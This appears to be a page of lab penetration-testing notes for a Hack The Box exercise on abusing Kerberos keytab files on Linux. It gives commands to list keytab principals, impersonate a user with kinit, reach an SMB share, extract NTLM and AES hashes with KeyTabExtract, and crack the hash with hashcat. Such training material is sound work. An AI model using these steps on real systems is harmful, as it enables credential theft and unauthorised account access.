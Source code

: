 #### Reading keytab information
```bash
# List principals in keytab file
klist -k -t /opt/specialfiles/carlos.keytab

# Output example:
Keytab name: FILE:/opt/specialfiles/carlos.keytab
KVNO Timestamp           Principal
---- ------------------- ----------------------------------------------
   1 10/06/2022 17:09:13 carlos@INLANEFREIGHT.HTB
```

#### Using keytab for authentication
```bash
# Check current tickets
klist

# Import keytab (case-sensitive!)
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab

# Verify new ticket
klist

# Test access to SMB share
smbclient //dc01/carlos -k -c ls
```

### Extracting Secrets from Keytab Files

#### KeyTabExtract Tool
```bash
# Download and use KeyTabExtract
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab

# Expected output:
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : carlos/
        NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
        AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
        AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
```

#### Hash Cracking
```bash
# Crack NTLM hash with hashcat
hashcat -m 1000 a738f92b3c08b424ec2d99589a9cce60 /usr/share/wordlists/rockyou.txt

# Quick online lookup
# Use services like crackstation.net for common passwords

# Login with cracked password
su - carlos@inlanefreight.htb
```

---